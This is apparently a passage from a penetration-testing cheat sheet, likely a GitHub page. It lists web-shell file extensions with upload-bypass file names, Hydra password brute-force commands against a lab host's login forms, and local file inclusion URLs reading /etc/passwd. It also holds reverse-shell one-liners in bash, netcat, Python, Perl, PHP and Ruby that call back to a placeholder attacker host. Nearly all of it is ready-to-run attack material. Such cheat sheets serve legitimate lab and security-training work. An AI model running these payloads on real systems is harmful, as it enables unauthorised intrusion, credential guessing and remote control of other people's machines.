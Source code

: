 ```
ASP: asp, .aspx

PERL: .pl, .pm, .cgi, .lib

JSP: .jsp, .jspx, .jsw, .jsv, .jspf

COLDFUSION: .cfm, .cfml, .cfc, .dbm
    
# example 
shell.aspx;.jpeg | shell.jsp.png
```
### Hydra Syntax
```console
# FOR HTTPS
hydra -l admin -P /usr/share/wordlists/top1m-rockyou.txt 10.10.10.43 https-post-form "/db/index.php:password=^PASS^&remember=yes&login=Log+In&proc_login=true:Incorrect password." -t 64

# the difference is https-post-form for HTTPS and http-post-form for HTTP

# FOR HTTP
 hydra -l admin -P /usr/share/wordlists/top1m-rockyou.txt 10.10.10.43 http-post-form "/department/login.php:username=^USER^&password=^PASS^:Invalid Password!"
```
### Local File Inclusion (LFI)
```
Example's:
http://[target]/file=/var/tmp/hack.php&cmd=ls

http://[target]/file=/var/tmp/hack.php?cmd=ls

http://[target]/file=../../../../../etc/passwd
```
### Go-to PentestMonkey Reverse Shells
```console
bash -c "'bash -i >& /dev/tcp/[lhost]/[lport] 0>&1'"
# OR
bash -i >& /dev/tcp/[lhost]/[lport] 0>&1
```
```console
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc [ip] [port] >/tmp/f
```
```python
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("[lhost]",[lport]));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```
```perl
perl -e 'use Socket;$i="[lhost]";$p=[lport];socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'
```
```php
php -r '$sock=fsockopen("[lhost]",[lport]);exec("/bin/sh -i <&3 >&3 2>&3");'
```
```ruby
ruby -rsocket -e'f=TCPSocket.open("[lhost]",[lport]).to_i;exec sprintf("/bin/sh -i <&%d >&%d 2>&%d",f,f,f)'
```
### When Scanning a Webpage
- [ ] look at each pages source code for any lucrative information (passwords, usernames, service versions, programming language in use, etc)
- [ ] run directory brute force tools on root directory